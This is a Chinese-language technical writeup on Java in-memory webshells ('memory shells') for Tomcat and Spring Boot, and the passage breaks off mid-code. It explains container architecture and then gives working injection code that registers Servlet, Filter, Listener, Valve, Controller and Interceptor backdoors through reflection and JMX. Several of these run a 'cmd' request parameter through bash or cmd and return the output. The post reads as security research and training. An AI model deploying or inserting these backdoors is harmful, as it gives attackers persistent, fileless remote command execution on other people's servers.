# Java应用内存马

年初1月份写下了这篇文章，今天在组内进行了分享，也顺便分享出来。

最初计划中还有不少东西要写，但目前想了想，整到这个地步也够了吧，后面搞其他更有意思的，就不再花费时间再这块了。

## 1. Tomcat架构

在了解架构的基础上，我们才能做得更好，而非仅依葫芦画瓢。

### 1.1 整体架构

`Server` 指整个Tomcat容器， `Server` 中可以存在多个`Service`， `Service` 中多个`Connector`对应一个 `Engine`， `Engine` 中可存在多个`Host`，每个 `Host `中可以存在多个应用 `Context`，`Context`中可存在多个`Wrapper`，除了Connector和Engine是平行关系，其它的都是包含关系。同时，它们也都继承了 Lifecycle 接口，该接口提供的是生命周期的管理，里面包括：初始化（init），启动（start），停止(stop)，销毁(destroy)。当它的父容器启动时，会调用它子容器的启动。

Enginer可简单看作请求处理的通道，它负责从多个Connector接收、处理请求，并将对应的结果返回给Connector。

Host 关联网域名，可以通过配置不同的Host来处理用户请求的不同域名，Host也被称为虚拟主机。

Context 表示一个web应用，一个war包。

Wrapper 对应着一个Servlet，Wrapper是最底层的容器，因此无法调用addChild()。



### 1.2 配置文件

通过查看server.xml web.xml我们也能对tomcat架构有一些直观的认识。

```xml
<?xml version='1.0' encoding='utf-8'?>
<Server port="8005" shutdown="SHUTDOWN">
   <Listener className="org.apache.catalina.core.AprLifecycleListener" SSLEngine="on" />
   <Listener className="org.apache.catalina.core.JasperListener" />
   <Listener className="org.apache.catalina.core.JreMemoryLeakPreventionListener" />
   <Listener className="org.apache.catalina.mbeans.GlobalResourcesLifecycleListener" />
   <Listener className="org.apache.catalina.core.ThreadLocalLeakPreventionListener" />
   <GlobalNamingResources>
     <Resource name="UserDatabase" auth="Container"
               type="org.apache.catalina.UserDatabase"
               description="User database that can be updated and saved"
               factory="org.apache.catalina.users.MemoryUserDatabaseFactory"
               pathname="conf/tomcat-users.xml" />
   </GlobalNamingResources>
   <Service name="Catalina">
     <Connector port="8080" protocol="HTTP/1.1"
                connectionTimeout="20000"
                redirectPort="8443" />
     <Connector port="8009" protocol="AJP/1.3" redirectPort="8443" />
     <Engine name="Catalina" defaultHost="localhost">
       <Realm className="org.apache.catalina.realm.LockOutRealm">
         <Realm className="org.apache.catalina.realm.UserDatabaseRealm"
                resourceName="UserDatabase"/>
       </Realm>
       <Host name="localhost"  appBase="webapps"
             unpackWARs="true" autoDeploy="true">
         <Valve className="org.apache.catalina.valves.AccessLogValve" directory="logs"
                prefix="localhost_access_log." suffix=".txt"
                pattern="%h %l %u %t &quot;%r&quot; %s %b" />
       </Host>
     </Engine>
   </Service>
</Server>
```


`web.xml`：每个webapp，即Context对应着一个web.xml，通过了解该文件的配置项，我们可以知道有哪些对象伴随着其生命周期的。

```xml
<!DOCTYPE web-app PUBLIC
 "-//Sun Microsystems, Inc.//DTD Web Application 2.3//EN"
 "http://java.sun.com/dtd/web-app_2_3.dtd" >

<web-app>
  <display-name>Example App</display-name>

  <!--在JSP网页中可以使用下列方法来取得:${initParam.param_name}-->
  <!--若在Servlet可以使用下列方法来获得:-->
  <!--String param_name=getServletContext().getInitParamter("param_name");-->
  <context-param>
    <param-name>param_name</param-name>
    <param-value>param_value</param-value>
  </context-param>

  <filter>
    <filter-name>myfilter</filter-name>
    <filter-class>com.test.MyFilter</filter-class>
  </filter>
  <filter-mapping>
    <filter-name>myfilter</filter-name>
    <url-pattern>/*</url-pattern>
  </filter-mapping>

  <listener>
    <listener-class>com.test.MyListener</listener-class>
  </listener>

  <servlet>
    <servlet-name>test</servlet-name>
    <servlet-class>com.test.TestServlet</servlet-class>
  </servlet>
  <servlet-mapping>
    <servlet-name>test</servlet-name>
    <url-pattern>/TestServlet</url-pattern>
  </servlet-mapping>


</web-app>

```


### 1.3 继承关系

`Container`接口申明了`addChild`方法，其实现类应通过该方法添加子容器，`Wrapper`为最小的容器。

LifecycleBase 抽象类实现了MBean注册的init方法

ContainserBase 拥有成员StandarPipeline，我们可通过该成员的 addValve方法添加 Valve 



### 1.4 业务流程

web开发中，我们可以通过 Listener、Filter、Servlet实现相关业务，它们的关系可以抽象为这张图：



各Container中维护者自己的管道Pipeline，Pipeline中保存着Valve，子容器通常是被父容器的Valve获取并调用相关方法。

如这里，这里的HostValve负责调用Context的Pipeline的第一个ContextValve，而通常Valve为单链结构，应调用下一个Valve。随后ContextValve中会调用该Context相关的Listener，接着调用Wrapper的Pipeline中的第一个WrapperValve，就这样一直走到我们自定义的MyServlet。通常情况下，Pipeline中可有1到多个Valve。


## 2. Tomcat内存马-隐式

这里的隐式指的隐式对象，稍微了解java web的同学们应该知道，jsp文件实际上也会被转换为Servlet，而我们在JSP代码中，能直接获取到九大隐式对象，这是因为我们在JSP所写的代码块转换到Servlet中室，前文会存在对应的变量。

### 2.1 获取StandardContext

通过前文的Tomcat架构我们可以了解到，Servlet、Filter、Listener这些类产生的对象应在Context内运行，所以我们添加这些类型的内存马的前提是能拿到其对应的Context，Context具体实现类为StandardContext。

在JSP中，我们可通过隐式对象request获取关键的`StandardContext`，过程如下：



这里提到的几个类都是`HttpServletRequest`的实现类



转换为如下代码：

```java
	Field reqF = org.apache.catalina.connector.RequestFacade.class.getDeclaredField("request");
    reqF.setAccessible(true);
    org.apache.catalina.connector.Request req = (Request) reqF.get(request);
    org.apache.catalina.core.StandardContext standardContext = (StandardContext) req.getContext();
```

jsp上下文中，我们也可以通过下图这个关系来拿到`StandarContext`



ServletContext与Context没有继承关系



转换为如下代码：

```java
    ApplicationContextFacade applicationContextFacade = (ApplicationContextFacade) request.getServletContext();
    Field field = ApplicationContextFacade.class.getDeclaredField("context");
    field.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) field.get(applicationContextFacade);
    field = ApplicationContext.class.getDeclaredField("context");
    field.setAccessible(true);
```

### 2.2 Servlet内存马

如何构造Servlet内存马？核心思路是首先找到承载Servlet的关键类，然后找到该类动态添加Servlet的关键方法，最后模仿其添加Servlet代的代码即可。

Servlet被Wrapper所管理，而Wrapper是Context的子容器，所以答案就在Context相关方法中。

我们查看org.apache.catalina.Context接口的实现类`org.apache.catalina.core.StandardContext`，阅读该类的代码，了解具体是如何添加一个Wrapper。

先直接查找名字中带有Wrapper的方法，并打上断点，随后debug，分析代码流程。

`org.apache.catalina.core.StandardContext#createWrapper`，该方法实例化了一个`Wrapper`，并返回了该对象。



在`return (Wrapper)wrapper` F8跟踪，随后来到`o.a.c.s.ContextConfig#configureContext`，这段代码直接告诉我们如何添加一个`Wrapper`，这里的context即StandarContext。



这里`wrapper.setServletClass`之后，实际上会通过context的类加载器来实例化该Servlet，由于我们的内存马不会在这里面，所以无法直接这样设置，但我们直接设置该`instance`就好。



Servlet内存马的关键过程如下（Servlet.jsp)：

```java
  	String path = "/favicon.ico";
    Wrapper wrapper = new StandardWrapper();
    wrapper.setServlet(new MyServlet());
    wrapper.setName("MyServlet");
    standardContext.addChild(wrapper);
    // <=tomcat 8 ,tomcat8标记过期， tomcat9删除了该方法
    //standardContext.addServletMapping(path,"MyServlet");
    // >= tomcat 8
    standardContext.addServletMappingDecoded(path,"MyServlet");
```


### 2.3 Filter内存马

根据前面所说的思路，我们也可以找出 Filter Listener内存马的动态注册方法。

Filter内存马关键代码如下（Filter.jsp）：

```java
	field = StandardContext.class.getDeclaredField("filterConfigs");
    field.setAccessible(true);
    Map filterConfigs = (Map) field.get(standardContext);
    if (filterConfigs.get(name) == null) {
        Filter filter = new MyFilter();
        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(filter);
        filterDef.setFilterName(name);
        filterDef.setFilterClass(filter.getClass().getName());
        standardContext.addFilterDef(filterDef);
        FilterMap filterMap = new FilterMap();
        filterMap.setFilterName(filterDef.getFilterName());
        filterMap.setDispatcher(DispatcherType.REQUEST.name());
        filterMap.addURLPattern("/favicon.ico");
        standardContext.addFilterMapBefore(filterMap);
        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
        constructor.setAccessible(true);
        FilterConfig filterConfig = (FilterConfig) constructor.newInstance(standardContext, filterDef);
        filterConfigs.put(name, filterConfig);
    }
```

兼容Tomcat7 8：

```java
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="com.test.MyFilter" %><%
    String name = "MyFilter";
    String url = "/MyFilter";
    Field field = org.apache.catalina.connector.RequestFacade.class.getDeclaredField("request");
    field.setAccessible(true);
    org.apache.catalina.connector.Request req = (Request) field.get(request);
    org.apache.catalina.core.StandardContext standardContext = (StandardContext) req.getContext();
    field = StandardContext.class.getDeclaredField("filterConfigs");
    field.setAccessible(true);
    Map filterConfigs = (Map) field.get(standardContext);
    if (filterConfigs.get(name) == null) {
        Filter filter = new MyFilter();
        Class FilterMap ;
        Class FilterDef ;
        try {
            //tomcat8
            FilterMap = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap");
            FilterDef = Class.forName("org.apache.tomcat.util.descriptor.web.FilterDef");
        } catch (Exception e) {
            //tomcat7
            FilterMap = Class.forName("org.apache.catalina.deploy.FilterMap");
            FilterDef = Class.forName("org.apache.catalina.deploy.FilterDef");
        }
        Object filterDef = FilterDef.newInstance();
        FilterDef.getDeclaredMethod("setFilter",Filter.class).invoke(filterDef,filter);
        FilterDef.getDeclaredMethod("setFilterName",String.class).invoke(filterDef,name);
        FilterDef.getDeclaredMethod("setFilterClass",String.class).invoke(filterDef,filter.getClass().getName());
        Context.class.getDeclaredMethod("addFilterDef",FilterDef).invoke(standardContext,filterDef);

        Object filterMap = FilterMap.newInstance();
        FilterMap.getDeclaredMethod("setFilterName",String.class).invoke(filterMap,name);
        FilterMap.getDeclaredMethod("setDispatcher",String.class).invoke(filterMap,"REQUEST");
        FilterMap.getDeclaredMethod("addURLPattern",String.class).invoke(filterMap,url);
        Context.class.getDeclaredMethod("addFilterMapBefore",FilterMap).invoke(standardContext,filterMap);

        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef);
        constructor.setAccessible(true);
        FilterConfig filterConfig = (FilterConfig) constructor.newInstance(standardContext, filterDef);
        filterConfigs.put(name, filterConfig);
    }
%>
```


### 2.4 Listener内存马

org.apache.catalina.LifecycleListener  ，关注LifecycleEvent，监听LifecycleBase产生的事件。

org.apache.catalina.ContainerListener，关注ContainerEvent

SessionListener

ServletRequestListener

```jsp
<%@ page import="java.io.InputStream" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.core.ApplicationContextFacade" %>
<%@ page import="java.io.OutputStream" %>
<%!
    public class MyListen implements ServletRequestListener {
       @Override
    public void requestDestroyed(ServletRequestEvent servletRequestEvent) {

    }
    public void requestInitialized(ServletRequestEvent sre) {
        try {
            HttpServletRequest req = (HttpServletRequest) sre.getServletRequest();
            Field requestF = Class.forName("org.apache.catalina.connector.RequestFacade").getDeclaredField(
                    "request");
            requestF.setAccessible(true);
            //org.apache.catalina.connector.Request
            org.apache.catalina.connector.Request request = (org.apache.catalina.connector.Request) requestF.get(req);
            org.apache.catalina.connector.Response response = request.getResponse();
            // request.getResponse().getWriter().write(out);

            //sre.getServletRequest().getParameter("cmd");
            if (request.getParameter("cmd") != null&&request.getParameter("Listener") != null) {
                Boolean isWin = System.getProperty("os.name").toUpperCase().contains("WIN");
                String[] cmd = {isWin?"cmd":"/bin/bash",isWin?"/c":"-c",request.getParameter("cmd")};
                InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                OutputStream outputStream = response.getOutputStream();
                int a = 0;
                outputStream.write("<pre>".getBytes());
                while((a=inputStream.read())!=-1){
                    outputStream.write(a);
                }
                outputStream.write("</pre>".getBytes());
            }

       		} catch (Exception e) {
        	}
    	}

    }
%>
<%
    Field contextF = ApplicationContextFacade.class.getDeclaredField("context");
    contextF.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) contextF.get(request.getServletContext());
    contextF = ApplicationContext.class.getDeclaredField("context");
    contextF.setAccessible(true);
    StandardContext standardContext = (StandardContext) contextF.get(applicationContext);
    ServletRequestListener myListener = new MyListener();
    standardContext.addApplicationEventListener(myListener);
%>
```

### 2.5 Valve内存马


前文”Tomcat架构-业务流程“中讲到了Valve，Valve可以看作单链结构，总是指向下一个Value



Container 接口申明了getPipeline()方法，ContainerBase为其实现类，也就是是说，理论上我们可以向Engine Context Host Wrapper的管道pipeline添加自定义的Valve。



Valve.jsp：

```jsp
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="org.apache.catalina.Valve" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.io.OutputStream" %>
<%!
    public class MyValue extends org.apache.catalina.valves.ValveBase{
        @Override
        public void invoke(Request request, Response response)  {
            if (request.getParameter("cmd") != null) {
                try {
                    Boolean isWin = System.getProperty("os.name").toUpperCase().contains("WIN");
                    String[] cmd = {isWin?"cmd":"/bin/bash",isWin?"/c":"-c",request.getParameter("cmd")};
                    InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                    OutputStream outputStream = response.getOutputStream();
                    int a = 0;
                    outputStream.write("<pre>".getBytes());
                    while((a=inputStream.read())!=-1){
                        outputStream.write(a);
                    }
                    outputStream.write("</pre>".getBytes());
                    this.getNext().invoke(request,response);
                } catch (Exception e) {
                    
                }
            }
        }
    }
%>

<%
    Valve myValve = new MyValue();
    Field reqF = org.apache.catalina.connector.RequestFacade.class.getDeclaredField("request");
    reqF.setAccessible(true);
    org.apache.catalina.connector.Request req = (Request) reqF.get(request);
    org.apache.catalina.core.StandardContext context = (StandardContext) req.getContext();
    org.apache.catalina.Pipeline pipeline = context.getPipeline();
    pipeline.addValve(myValve);

%>
```

## 3. Tomcat内存马-全局

在代码执行漏洞中，由于我们不在JSP中，无法从当前上下文获取到request从而拿到StandardContext，所以我们只能寻找符合我们期望的静态变量或单例类，从中获取我们需要的对象，本节讲解无隐式对象的情况下如何获取context。

### 3.1 JMX&MBean介绍

JMX与MBean概念详情可参考[ Tomcat - 组件拓展管理:JMX和MBean](https://pdai.tech/md/framework/tomcat/tomcat-x-jmx.html)

JMX(Java Management Extensions)是一个为应用程序植入管理功能的框架。JMX是一套标准的代理和服务，实际上，用户可以在任何Java应用程序中使用这些代理和服务实现管理。它使用了最简单的一类javaBean，使用有名的MBean，其内部包含了数据信息，这些信息可能是程序配置信息、模块信息、系统信息、统计信息等。MBean可以操作可读可写的属性、直接操作某些函数。

通过jdk自带的`JConsole`我们可以直接通过本地进程管理相关的MBean，另外我们也可以通过增加JAVA命令选项开启远程连接进行管理，远程连接的字符串为`service:jmx:rmi:///jndi/rmi://127.0.0.1:9876/jmxrmi`

`set "JAVA_OPTS=%JAVA_OPTS% -Dcom.sun.management.jmxremote -Dcom.sun.management.jmxremote.port=9876 -Dcom.sun.management.jmxremote.ssl=false -Dcom.sun.management.jmxremote.authenticate=false -Djava.rmi.server.hostname=127.0.0.1"`



注册MBean的接口方法为`javax.management.MBeanServer#registerMBean`，`JmxMBeanServer`是我们需要关注的实现类。



### 3.2 Tomcat MBean

支持6-9版本Tomcat

在`com.sun.jmx.mbeanserver.JmxMBeanServer#registerMBean`处打上断点，设定条件`object.toString().contains("Catalina")`

我们通过浏览堆栈信息可了解到，抽象类`LifecycleBase`的`init`方法中实现了MBean的注册，继承了该抽象类的都可以进行MBean注册。

```java
registerMBean:522, JmxMBeanServer (com.sun.jmx.mbeanserver)*
registerComponent:634, Registry (org.apache.tomcat.util.modeler)*
register:159, LifecycleMBeanBase (org.apache.catalina.util)
initInternal:813, StandardServer (org.apache.catalina.core)
init:136, LifecycleBase (org.apache.catalina.util)*
load:639, Catalina (org.apache.catalina.startup)
load:662, Catalina (org.apache.catalina.startup)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
load:302, Bootstrap (org.apache.catalina.startup)
main:472, Bootstrap (org.apache.catalina.startup)
```

MBeanServer在Registry字段中。

`Registry#registerCompoent`方法中将MBean注册到了MBeanServer，MBeanServer为Registry的field字段，Registry为单例模式，我们可以通过`Registry#getRegistry`拿到该对象。



根据上面所说的原理，我们可以拿到StandardContext、StandardEngine，随后向其写入内存马

`TomcatMBeanValve.jsp`

```java
        Registry registry = (Registry) getFieldValue("org.apache.tomcat.util.modeler.Registry", "registry", null);
//    Method getMBeanServer = getMethod("org.apache.tomcat.util.modeler.Registry",
//            "getMBeanServer", null);
//    Object jmxMBeanServer = getMBeanServer.invoke(registry, null);
    MBeanServer jmxMBeanServer = registry.getMBeanServer();

    Object mbsInterceptor = getFieldValue("com.sun.jmx.mbeanserver.JmxMBeanServer", "mbsInterceptor",
            jmxMBeanServer);

    Object repository =  getFieldValue("com.sun.jmx.interceptor.DefaultMBeanServerInterceptor", "repository",
            mbsInterceptor);

    Method query = getMethod("com.sun.jmx.mbeanserver.Repository", "query", ObjectName.class, QueryExp.class);

    /*
    ObjectName 的过滤用法可以参考以下案例
    null, "", "*:*"  : 表示不过滤，包含所有
    "Catalina:*" 表示域为Catalina的MBean，
    "Catalina:type=Valve,*" 表示域为Catalina且其中键名type的值为Valve，且可以存在其他键值对
     */
    ObjectName objectName = new ObjectName("*:type=Valve,name=StandardEngineValve,*");
    Set<NamedObject> namedObjects = (Set<NamedObject>) query.invoke(repository, objectName, null);

    for (NamedObject object:namedObjects) {
        DynamicMBean dynamicMBean = object.getObject();
        Object resource = getFieldValue("org.apache.tomcat.util.modeler.BaseModelMBean", "resource",
                dynamicMBean);

        //Object standardEngine = field.get(resource);
        StandardEngine standardEngine = (StandardEngine) getFieldValue("org.apache.catalina.valves.ValveBase",
                "container",resource);

//        Method getPipeline = getMethod("org.apache.catalina.Container", "getPipeline", null);
//        Object pipeline = getPipeline.invoke(standardEngine, null);
        Pipeline pipeline = standardEngine.getPipeline();

//        Class Valve = getClass("org.apache.catalina.Valve");
//        Method addValve = getMethod("org.apache.catalina.Pipeline", "addValve", Valve);
//        addValve.invoke(pipeline, new MyValve());
        pipeline.addValve(new MyValve());
    }

```


### 3.3 ApplicationFilterChain

这里介绍一种静态方法获取request。

`org.apache.catalina.core.ApplicationFilterChain#internalDoFilter`方法中，当ApplicationDispatcher.WRAP_SAME_OBJECT为true时，会将request/response暂存在静态变量中，最后的finally代码块中会对相关静态变量的值置空，所以在Servlet中比较适用该方法。当然，漏洞点发生在Filter中时，我们通过反射遍历所有线程的lastServicedRequest也是有可能可以拿到的（Tomcat 6中不存在这些字段，无法使用）。



我们需要先去掉字段的final修饰，将WRAP_SAME_OBJECT设置为true，并对lastServicedRequest、lastServicedResponse进行初始化

StaticReuqest-Filter.jsp：

```java
	//去掉final修饰
    void nofinal (Field targetField)throws Exception{
        Field modifiersField = Field.class.getDeclaredField("modifiers");
        modifiersField.setAccessible(true);
        modifiersField.setInt(targetField, targetField.getModifiers() & ~java.lang.reflect.Modifier.FINAL);
        targetField.setAccessible(true);
    }            
    Field WRAP_SAME_OBJECT = Class.forName("org.apache.catalina.core.ApplicationDispatcher")
        .getDeclaredField("WRAP_SAME_OBJECT");
    nofinal(WRAP_SAME_OBJECT);
    WRAP_SAME_OBJECT.setBoolean(null, true);

    Field lastServicedRequest = ApplicationFilterChain.class.getDeclaredField("lastServicedRequest");
    nofinal(lastServicedRequest);
    if (lastServicedRequest.get(null) == null) {
        lastServicedRequest.set(null, new ThreadLocal<>());
    }
    Field lastServicedResponse = ApplicationFilterChain.class.getDeclaredField("lastServicedResponse");
    nofinal(lastServicedResponse);
    if (lastServicedResponse.get(null) == null) {
        lastServicedResponse.set(null, new ThreadLocal<>());
    }
    ThreadLocal thredLocal = (ThreadLocal) lastServicedRequest.get(null);
    if (thredLocal != null && thredLocal.get() != null) {
        Object servletRequest = thredLocal.get();
```


## 4. Spring架构

spring boot web构建于tomcat之上，但做了一定程度的修改，启动流程没有使用Tomcat那一套，启动spring boot的方法为`org.springframework.boot.SpringApplication#run`

通过Console我们可以看到其MBean：




SpringMCV的架构可以抽象成如下图（很多细节没展现），Spring中的Controller与Inteceptor运行于DispatcherServlet中



Interceptor中可以通过以下方法进行业务处理：



这张代码图能帮助我们把Controller Interceptor 关系理清楚




## 5. Spring内存马

spring-boot web提供了独立的web服务器embedded-tomcat，底层架构没有变化，所以Tomcat中内存马也适用于Spring中，本节除了讲述利用Spring自身机制进行内存马构造，也将说明tomcat内存马在spring boot下的利用。

### 5.1 Spring Context

在DispatcherServlet之前的Filter流程中，将当前request response设置为了attributes的引用字段，最后放到了线程安全的RequestContextHolder的字段中，但在访问完DispatcherServlet后进行了相关的回收resetContextHolders()





在随后的DispatcherServlet中，对request设置了多个属性，包括spring context，所以我们可以通过RequestContextHolder获取spring context，但最好在controller、interceptor中，当然，在其他情况下也是能获取到的，参考“Filter中写内存马的误解”。



我们可以使用如下代码从RquestContextHolder获取spring context，参数scope值为0则从request取attribute，其他值从session取attribute

```java
WebApplicationContext context = (WebApplicationContext) RequestContextHolder.getRequestAttributes().getAttribute("org" +
                ".springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
```


### 5.2 Spring-Boot MBean

spring-boot中，我们可以利用MBean机制获取tomcat的容器对象，从而实现tomcat下的内存马

在`com.sun.jmx.mbeanserver.JmxMBeanServer#registerMBean`打上断点

```
registerMBean:522, JmxMBeanServer (com.sun.jmx.mbeanserver)
afterPropertiesSet:129, SpringApplicationAdminMXBeanRegistrar (org.springframework.boot.admin)
invokeInitMethods:1862, AbstractAutowireCapableBeanFactory (org.springframework.beans.factory.support)
initializeBean:1799, AbstractAutowireCapableBeanFactory (org.springframework.beans.factory.support)
doCreateBean:595, AbstractAutowireCapableBeanFactory (org.springframework.beans.factory.support)
...
run:1215, SpringApplication (org.springframework.boot)
main:11, App (com.main)
```

`afterPropertiesSet`告诉了我们如何获取MBeanServer：



通过MBean机制获取到spring context，该方式不受代码限制：

```java
		WebApplicationContext context=null;
        MBeanServer jmxMBeanServer = ManagementFactory.getPlatformMBeanServer();
        Object mbsInterceptor = getFieldValue("com.sun.jmx.mbeanserver.JmxMBeanServer", "mbsInterceptor",
                jmxMBeanServer);
        Object repository =  getFieldValue("com.sun.jmx.interceptor.DefaultMBeanServerInterceptor", "repository",
                mbsInterceptor);
        Method query = getMethod("com.sun.jmx.mbeanserver.Repository", "query", ObjectName.class, QueryExp.class);
        ObjectName objectName = new ObjectName("*:name=SpringApplication,*");
        Set<NamedObject> namedObjects = (Set<NamedObject>) query.invoke(repository, objectName, null);
        for (NamedObject object:namedObjects) {
            MXBeanSupport dynamicMBean = (MXBeanSupport) object.getObject();
            Object resource = getFieldValue("com.sun.jmx.mbeanserver.MBeanSupport", "resource",
                    dynamicMBean);
            //SpringApplicationAdminMXBeanRegistrar
            Object registrar = (SpringApplicationAdminMXBeanRegistrar) getFieldValue("org.springframework.boot" +
                            ".admin.SpringApplicationAdminMXBeanRegistrar$SpringApplicationAdmin",
                    "this$0", resource);
            context = (WebApplicationContext) getFieldValue("org.springframework.boot.admin.SpringApplicationAdminMXBeanRegistrar",
                    "applicationContext", registrar);
            break;
        }
```

### 5.3 获取Tomcat容器

在SpringBoot启过程中，会实例化Tomcat服务器，而该对象保存在spring context中的，所以我们也能获取到Tomcat服务器的容器对象



获取Tomcat Engine的代码参考如下，拿到Tomcat下的容器对象，我们可以参考上文直接添加Valve/Listener/Wrapper/Filter内存马

```java
  	   //AnnotationConfigServletWebServerApplicationContext
       WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        Object tomcatServer = getFieldValue("org.springframework.boot.web.servlet.context" +
                ".ServletWebServerApplicationContext",
                "webServer", context);
        Object tomcat = getFieldValue("org.springframework.boot.web.embedded.tomcat.TomcatWebServer", "tomcat",
                tomcatServer);
        Object server = getFieldValue("org.apache.catalina.startup.Tomcat", "server", tomcat);
        Object[] services = (Object[]) getFieldValue("org.apache.catalina.core.StandardServer",
                "services", server);
        Object service = services[0];
        //拿到StandardEngine
        Object engine = getFieldValue("org.apache.catalina.core.StandardService", "engine", service);

```

### 5.4 ApplicationFilterChain

我们依然可以使用该方法获取tomcat的context，并写入内存马，原理与上文提到的Tomcat ApplicationFilterChain一致。

此处就不再赘述。


### 5.5 Controller内存马

如何编写一个Controller内存马？构造思路Servlet内存马一样，首先找到保存Controller信息的关键类，然后看该类的关键注册方法，最后模仿其注册代码即可。

首先，我们将debug点打到自定义的Controller前端入口方法中，浏览堆栈信息

`org.springframework.web.servlet.DispatcherServlet#doDispatch`：`mappedHandler`为我们命中的前端入口方法，该变量为`getHandler(processedRequest)`的返回值：



`org.springframework.web.servlet.DispatcherServlet#getHandler`：从该函数的代码可以了解到，handlerMappings中的mapping关联着处理器handler（handler包含着实际处理业务的Controller、Inteceptor）



继续步入`mapping.getHandler(reuqest)`代码，我们可以发现与Controller直接关联的关键类方法为`AbstractHandlerMethodMapping#lookupHandlerMethod`，该抽象类有有两个注册方法，我们在注册方法上打上断点，重启spring-boot，可以命中`registerHandlerMethod`方法中的断点。



往上翻堆栈，可以确认是通过这里进行Controller的注册，入参handler可为字符串或对应入口类的instance，我们模仿此处代码编写内存马即可。



这些方法的调用者为RequestMappinHandlerMapping的实例化对象，Spring的context实现类BeanFactory，context会保存这些对象，所以我们能从context直接获取RequestMappinHandlerMapping的instance





```java
public static void injectController() throws Exception {
         WebApplicationContext context = (WebApplicationContext) RequestContextHolder.getRequestAttributes().getAttribute("org" +
                ".springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
        //代码中的MappingInfo需要从入口的注解中获得,这里手动实例化
        PatternsRequestCondition patterns = new PatternsRequestCondition("/foo");
        RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition(RequestMethod.GET,RequestMethod.POST);
        RequestMappingInfo mapping = new RequestMappingInfo(patterns, ms, null, null, null, null, null);
        Method registerHandlerMethod= getMethod("org.springframework.web.servlet.mvc.method.annotation" +
                        ".RequestMappingHandlerMapping",
                "registerHandlerMethod", Object.class, Method.class, RequestMappingInfo.class);
        Method method = Shell.class.getDeclaredMethod("shell", HttpServletRequest.class, HttpServletResponse.class);
        registerHandlerMethod.invoke(mappingHandlerMapping, new Shell(), method, mapping);
    }

public class Shell {
    public void shell(HttpServletRequest request, HttpServletResponse response) throws Exception {
        if (request.getParameter("cmd") != null) {
            try {
                Boolean isWin = System.getProperty("os.name").toUpperCase().contains("WIN");
                String[] cmd = {isWin ? "cmd" : "/bin/bash", isWin ? "/c" : "-c", request.getParameter("cmd")};
                InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                OutputStream outputStream = response.getOutputStream();
                int a = 0;
                outputStream.write("<pre>".getBytes());
                while ((a = inputStream.read()) != -1) {
                    outputStream.write(a);
                }
                outputStream.write("</pre>".getBytes());
            } catch (Exception e) {
            }
        }
    }
}
```


### 5.6 Interceptor内存马

获取Interceptor的代码在getHandler中的一个代码流程分支中，我们可以看到最关键的地方是一个数组：



我们可以轻易地编写出Interceptor内存马

```java
    public static class MyInterceptor implements HandlerInterceptor {
        @Override
        public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
            java.lang.Runtime.getRuntime().exec("calc");
            return true;
        }

        @Override
        public void postHandle(HttpServletRequest request, HttpServletResponse response, Object handler, ModelAndView modelAndView) throws Exception {
          
        }

        @Override
        public void afterCompletion(HttpServletRequest request, HttpServletResponse response, Object handler, Exception ex) throws Exception {
          
        }
    }
	public static void nofinal(Field targetField)throws Exception{
        Field modifiersField = Field.class.getDeclaredField("modifiers");
        modifiersField.setAccessible(true);
        modifiersField.setInt(targetField, targetField.getModifiers() & ~java.lang.reflect.Modifier.FINAL);
        targetField.setAccessible(true);
    }

    public static void injectInterceptor() throws Exception{
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.getRequestAttributes().getAttribute("org" +
                ".springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);

        Field adaptedInterceptorsField = AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
        nofinal(adaptedInterceptorsField);
        List<HandlerInterceptor> adaptedInterceptors = (List<HandlerInterceptor>) adaptedInterceptorsField.get(mappingHandlerMapping);
        adaptedInterceptors.add(new MyInterceptor());

    }
```


### 5.7 View内存马

调用controller后会返回一个视图，只有controller没有使用@ResponseBody注解情况下view才不为null。

view非null情况下，会选择最“合适”的模板解析器ViewResolver，并在triggerAfterCompletion方法前进行视图渲染，

跟踪DispatcherServlet的render方法，关键点viewResolvers是一个List，该对象为DispatcherServlet的字段：



```java
 	public static void injectFooController() throws Exception {
        //scope值为0则从request取attribute，其他值从session取attribute
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.getRequestAttributes().getAttribute("org" +
                ".springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
        //代码中的MappingInfo需要从入口的注解中获得,这里手动实例化
        PatternsRequestCondition patterns = new PatternsRequestCondition("Foo");
